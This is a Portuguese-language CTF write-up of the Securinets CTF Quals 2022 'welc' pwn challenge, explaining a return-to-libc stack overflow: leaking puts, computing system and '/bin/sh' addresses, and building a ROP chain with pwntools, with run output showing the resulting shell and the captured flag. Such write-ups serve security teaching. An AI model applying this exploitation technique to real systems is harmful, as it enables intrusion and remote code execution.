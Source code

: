 ```yaml
---
layout: post
title: Welcome - [Securinets CTF Quals 2022] - Return to libc com pwntools
date: 2022-04-11 20:53
author: obrerodrigues
comments: true
categories: [CTFs]
---
```

**Link para o challenge: https://github.com/brerodrigues/exploit_drafts/tree/main/ctfing/Securinets_CTF_Quals_2022/1_welc**

Um clássico stack overflow. O binário não tem **stack canaries** nem **PIE**, mas está com **NX** ligado, então nada de shellcode. Por ter vindo uma libc junto do challenge, um ataque **return-to-libc** é facilitado e possível mesmo que o servidor esteja com **ASLR** habilitado. Sabendo o que tenho e o que posso fazer foi só questão de pôr em prática:

* Primeiro obtenho um leak do endereço de puts na libc. Consigo fazer isso com facilidade porque sem PIE no binário posso utilizar todos os endereços do mesmo. Depois de obter o endereço de puts, reinicio o binário finalizando minha primeira rop chain com o endereço de \_start. 
* Com o leak, basta usar um pouco de matemática para calcular on-demand o endereço de qualquer função da libc e montar uma segunda rop chain para executar **system('/bin/sh')**, obter a shell e ler a flag.

Esse resumo pode ter parecido grego para o não iniciado, então para os novinhos recomendo o liveoverflow explicando que porra é ret2libc: https://www.youtube.com/watch?v=m17mV24TgwY

A execução e o código do exploit completo podem ser observados abaixo. Destaco a facilidade que é utilizar a pwntools para criar rop chains (e vários outros processos repetitivos manuais necessários para escrever um exploit, vale a pena aprender e dominar essa porra) e demonstro no código essa diferença. Tentei comentar o que achei interessante para complementar a postagem.

Executando:
```
b@vbm ~/c/s/pwn1> python3 xpl.py
[+] Opening connection to 20.216.39.14 on port 1237: Done
[*] '/home/b/ctf/securinets/pwn1/welc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './welc'
Zied likes degla b zbib ! what about you ?
[*] '/home/b/ctf/securinets/pwn1/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Leaked puts 0x7f4b74d56450
System address 0x7f4b74d242c0
/bin/sh address 0x7f4b74e865bd
0x0000:         0x40101a ret
0x0008:         0x401283 pop rdi; ret
0x0010:              0x0 [arg0] rdi = 0
0x0018:         0x401281 pop rsi; pop r15; ret
0x0020:              0x0 [arg1] rsi = 0
0x0028:      b'kaaalaaa' <pad r15>
0x0030:   0x7f4b74de6980
0x0038:         0x401283 pop rdi; ret
0x0040:   0x7f4b74e865bd [arg0] rdi = 139962060662205
0x0048:   0x7f4b74d242c0
Press enter to pwn...
Zied likes degla b zbib ! what about you ?
Enjoy the shell
[*] Switching to interactive mode
$ ls
flag.txt
welc
ynetd
$ cat flag.txt
Securinets{5d91d2e01b854fd457c1d8b592a19b38af6b4a33c6362b7d}
```

E o exploit:
<script src="https://gist.github.com/brerodrigues/9161ae24483d0e2f78aef8e6318088b1.js"></script>
